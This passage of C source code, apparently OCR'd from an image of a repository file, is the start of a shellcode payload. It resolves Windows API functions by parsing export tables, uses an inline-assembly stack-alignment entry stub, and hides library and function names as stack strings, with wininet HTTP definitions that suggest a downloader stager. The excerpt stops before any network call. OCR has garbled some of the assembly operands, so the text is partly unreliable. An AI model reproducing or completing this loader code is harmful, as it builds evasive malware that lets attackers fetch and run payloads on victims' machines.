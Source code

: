         DWORD funcsListRVA = exp->AddressOfFunctions;
        DWORD funcNamesListRVA = exp->AddressOfNames;
        DWORD namesOrdsListRVA = exp->AddressOfNameOrdinals;

        //go through names:
        for (SIZE_T i = 0; i < namesCount; i++) {
            DWORD* nameRVA = (DWORD*)(funcNamesListRVA + (BYTE*)module + i * sizeof(DWORD));
            WORD* nameIndex = (WORD*)(namesOrdsListRVA + (BYTE*)module + i * sizeof(WORD));
            DWORD* funcRVA = (DWORD*)(funcsListRVA + (BYTE*)module + (*nameIndex) * sizeof(DWORD));

            LPSTR curr_name = (LPSTR)(*nameRVA + (BYTE*)module);
            size_t k = 0;
            for (k = 0; func_name[k] != 0 && curr_name[k] != 0; k++) {
                if (func_name[k] != curr_name[k]) break;
            }
            if (func_name[k] == 0 && curr_name[k] == 0) {
                //found
                return (BYTE*)module + (*funcRVA);
            }
        }
        return NULL;
    }

    //Define some things for wininet, could use them directly but helps readability
    typedef LPVOID HINTERNET;
    #define INTERNET_OPEN_TYPE_DIRECT 1
    #define INTERNET_SERVICE_HTTP 3

    //For 64 bit shellcodes we will set this as the entrypoint
    void AlignRSP()
    {
        asm("push %rsi\n"
            "mov % rsp, % rsi\n"
            "and $0x0FFFFFFFFFFFFFFF0, % rsp\n"
            "sub $0x020, % rsp\n"
            "call ExecutePayload\n"
            "mov % rsi, % rsp\n"
            "pop % rsi\n"
            "ret\n");
    }

    //Our 32bit entrypoint, helps avoid bloat caused by mingw and main functions
    int ExecutePayload()
    {
        // Stack based strings for libraries and functions the shellcode needs
        wchar_t kernel32_dll_name[] = { 'k','e','r','n','e','l','3','2','.','d','l','l', 0 };
        char load_lib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
        char get_proc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };

        // resolve kernel32 image base
        LPVOID base = get_module_by_name((const LPWSTR)kernel32_dll_name);
        if (!base) {
            return 1;
        }
